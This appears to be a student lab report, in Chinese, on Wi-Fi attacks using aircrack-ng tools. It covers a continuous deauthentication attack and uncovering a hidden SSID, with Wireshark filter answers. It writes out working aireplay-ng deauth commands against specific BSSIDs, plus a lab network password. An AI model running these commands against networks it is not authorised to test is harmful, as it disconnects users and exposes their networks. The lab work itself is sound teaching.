

# ⽆线接⼊⽹⼊侵与防御

---

## 实验目标

1. 基于 aireplay-ng 的 Deauthentication 攻击
2. 发现隐藏 SSID


---

## 实验环境

- 操作系统: Kali Linux
- 虚拟机软件: VirtualBox7.1.6

---

## 实验步骤

### 实验⼀：基于 aireplay-ng 的 Deauthentication 攻击
#### 完成攻击

配置指定⽹卡 wlan0 进⼊监听模式,并开始以 channel hopping 模式抓包，获取⽬ WiFi 的 BSSID 和信道。
```bash
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon
```


设置⽆线⽹卡监听的信道与⽬标 WiFi ⼀致并开始进行攻击：
```bash
sudo airmon-ng start wlan0mon 11
sudo aireplay-ng --deauth 0 -a   54:D7:E3:41:A5:81  wlan0mon
```


#### 捕获并分析攻击流量

再次进行上述攻击的同时开始抓包：

```bash
sudo airodump-ng wlan0mon --channel 6 -w saved --beacons
```


开始攻击：


查看捕获的流量：


#### 思考题⼀

##### 1. 在分析数据包的过程中，如何快速过滤出所有的 Deauthentication 数据包？请给出对应的 Wireshark 过滤语法及截图。
因为 Deauthentication 数据包是 802.11 无线网络协议中的一种管理帧，所以可以根据其类型和子类型的字段进行识别
`wlan.fc.type == 0` 表示帧类型为管理帧,`wlan.fc.subtype == 12` 表示子类型为 Deauthentication ,综合之后得到下面的过滤语句：

```
wlan.fc.type == 0 && wlan.fc.subtype == 12
```


##### 2. 请分析你捕获到的数据包，找出其中 ROUTER_BSSID 和 TARGET_MAC_ADDRESS 均为你⾃⼰设备的数据包。请给出对应的 Wireshark 过滤语法及截图。

连接使用的 ROUTER_BSSID 和 TARGET_MAC_ADDRESS分别为下图所示：


对数据包进行检查：
分别使用下面的过滤语句进行过滤：
```
wlan.bssid == ********  #匹配 所有 BSSID 为指定值的帧
wlan.sa == ********   #匹配所有 Source Address（源地址）为该 MAC 的帧

```




##### 3. 请分析你捕获到的数据包，Deauthentication 数据包是何种 802.11 类型的帧，例如是管理帧、控制帧还是数据帧，通过报⽂中的哪个字段可以判断其类型？

是**管理帧**，通过分析 FC 字段可以看出


### 实验⼆：发现隐藏 SSID

- 隐藏 SSID：HUAWEI-Mobile2
- 密码：12345678

首先开启无线网卡的监听模式并以 channel hopping 模式抓包，获取目标 WIFI 的 BSSID 和其信道

```bash
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon   
```


可见，其中的 12 信道中的有一个隐藏的 SSID

于是接下来指定监听隐藏 SSID 的信道 12，并指定信道开启抓包，存储捕获到的流量包

```bash
sudo airmon-ng start wlan0mon 12
sudo airodump-ng wlan0mon --channel 12 -w saved --beacons
```

⽤ aireplay-ng 向指定 AP 发送 1 个解除认证⼴播包：

```bash
sudo aireplay-ng --deauth 1 -a 62:81:48:B1:EC:BF wlan0mon --ignore-negative-one
```

发送完毕后手机连接的隐藏 SSID 会重新进行连接认证，这时候回到终端中继续查看之前 channel hopping 的结果,发现原来的隐藏 SSID 已经显示了出来：


####  思考题⼆


##### 1. 分析捕获到的数据包，查找⽬标隐藏 SSID 62:81:48:B1:EC:BF 发出的所有 Beacon 报⽂，并查看报⽂中 SSID 字段设置。请给出对应的 Wireshark 过滤语法及截图。

过滤语句：  
```
wlan.fc.type_subtype == 0x08 && wlan.sa == 62:81:48:B1:EC:BF
```
其中：

`wlan.fc.type_subtype == 0x08`：表示 Beacon 帧

`wlan.sa == 62:81:48:B1:EC:BF`：表示帧的源地址为目标 AP 的 MAC 地址


同时，通过查看字段可以发现，SSID的字段为 `<MISSING>`


##### 2. 分析捕获到的数据包，查找哪些报⽂中包含了隐藏 SSID 62:81:48:B1:EC:BF 的 ESSID 名称？请给出任意⼀条报⽂的编号、报⽂的 802.11 协议帧类型。请给出对应的 Wireshark 过滤语法及截图。


由于已经知道了隐藏SSID的真实ESSID名称为"HUAWEI-Mobile2",所以可以直接过滤出SSID符合要求的包：
```
wlan,ssid==48:55:41:57:45:49:2d:4d:6f:62:69:6c:65:32
```


同时也可以看出抓取的包中包含ESSID的报文类型为 `Association Request` 、`Probe Request` 、 `Probe Response`三种数据帧类型


对于其中的一条报文：


可见这是一个 802.11协议数据帧为 Association Request 的管理帧报文，其编号 68

## 遇到的问题及解决方案

- 无线网卡抓包时无法显示channel hopping 的内容，经过检查是因为无线网卡没有被虚拟机正常识别，下面工具栏中USB图标一直在闪红点，重新插拔后再次启动监听模式后便可正常使用


